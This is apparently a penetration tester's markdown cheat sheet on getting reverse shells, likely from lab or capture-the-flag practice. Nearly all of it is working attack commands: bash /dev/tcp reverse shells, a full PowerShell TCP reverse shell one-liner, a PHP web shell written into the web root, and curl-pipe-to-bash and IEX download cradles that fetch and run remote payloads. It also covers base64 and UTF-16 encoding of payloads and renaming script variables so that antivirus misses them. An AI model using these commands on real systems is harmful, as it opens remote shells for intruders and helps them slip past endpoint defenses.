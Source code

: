 # Reverse Shells - Examples

https://www.revshells.com/

# Test that we can rev shell

	Before trying to get a rev shell, we might want to try a ping <ip> into a tcp dump or a uname -a | nc <ip> <port>, to see if we actually get a callback

## Bash

	bash -i >& /dev/tcp/<YOUR_IP>/<NETCAT_PORT> 0>&1

	if the shell being used is dash and not bash (check by doing ls -la /bin/sh)

	bash -c "bash -i >& /dev/tcp/<YOUR_IP>/<NETCAT_PORT> 0>&1"
	To use the bash's built-in /dev/tcp device file the use must use /bin/bash as shell. Often it uses sh or dash, then you can use bash -c "<cmd>" to force the bash

## Web shells

Find web shells in :

/usr/share/laudanum

## PHP

	https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

One liner:

	echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php

Good php shell, that bypasses a lot of disabled functions:

	https://github.com/flozz/p0wny-shell

## Fully interactive shell

In the reverse shell write

	python3 -c 'import pty;pty.spawn("/bin/bash")'

Put nc in the background by pressing CTRL+Z
then write

	stty raw -echo; fg;
	export TERM=xterm

You can also forward config the shell:

	export TERM=xterm-256color
	stty rows 67 columns 318

## Powershell

Save a powershell from https://www.revshells.com/ to a file. Start the netcat listener and a http server in the dir of the revshell we just saved.
Download and execute the shell with this one liner:

	powershell.exe -c iex (iwr -UseBasicParsing http://10.10.14.119:8000/my_ps_shell.ps1)

### Another Powershell One Liner

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Tips

Ugrading the the reverse shell we got

	script /dev/null -c bash

Download reverse shell file and imediately execute it

	curl 'http://10.10.16.20:2020/test.sh'|bash

Convert shell to base64 when sending it through http:

	echo -n 'bash -i >& /dev/tcp/10.10.14.93/4444 0>&1' | base64 -w0
	YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45My80NDQ0IDA+JjE=

	To get rid of the special characters like the plus sign just add double splaces:

	echo -n 'bash  -i  >&  /dev/tcp/10.10.14.93/4444  0>&1'
	YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC45My80NDQ0ICAwPiYx

	Then when sending the payload do:
	echo -n YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC45My80NDQ0ICAwPiYx | base64 -d | bash

	Try something but with 'bash -c "bash -i >& /dev/tcp/ip/port 0>&1"'

If the process of our shell is being killed by the target host, we can try creating in a new process:

	'nohup bash -c " bash -i >& /dev/tcp/ip/port 0>&1" &'

## Windows Reverse shells

Download nishang powershell:

	git clone https://github.com/samratashok/nishang.git

Copy the desired rev shell to your webserver directory:

	cp nishang/Shells/Invoke-PowerShellTcpOneLine.ps1 <webserver_path>/rev_shell.ps1

Delete the comments on the rev shell and change the ip and port to your localhost ip and netcat port. When starting the netcat use the rlwrap utility so that we have access to the up and down arrows for command history:

	rlwrap nc -nvlp 5555
	https://github.com/hanslub42/rlwrap.git

Now to download the rev_shell to the remote host we are gonna use a web cradle. The importance of this is that it something goes wrong and the antivirus blocks or connections, the web cradle helps determine what went wrong.

	IEX(New-Object Net.WebClient).downloadString('http://<web_server_ip>:<web_servber_port>/<rev_shell_name>.ps1')
	https://github.com/Andre92Marcos/myScripts/blob/main/web_cradle.ps1

If the web cradle does not reach our web server, we know that very likely the antivirus is blocking us from downloading the rev shell. Otherwise it problably is blocking the rev shell execution itself.

We change the relevant information in the web_cradle and next we are going to convert the web cradle to utf-16 little endian and then to base 64:

	cat web_cradle.ps1 | iconv -t utf-16le | base64 -w0

The reaseon we are converting to utf-16le is for Windows compability.

And finally we powershell the base64 string in the remote host:

	poweshell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADYAOgA4ADAAMAAwAC8AcgBlAHYAXwBzAGgAZQBsAGwALgBwAHMAMQAnACkACgA=

If we get a hit on the webserver trying to download the shell, but don't get the shell on the nc we know that the web cradle is working but the antivirus is blocking the rev shell. If this happens try changing the cradle to:

	IEX(IWR -UseBasicParsing http://<web_server_ip>:<web_servber_port>/<rev_shell_name>.ps1)

And then change the var names in the rev shell script (already done in this shell):

	https://github.com/Andre92Marcos/myScripts/blob/main/rev_shell_anti_virus.ps1


## Resources

https://security-tips.vincd.com/reverse-shell/

https://github.com/samratashok/nishang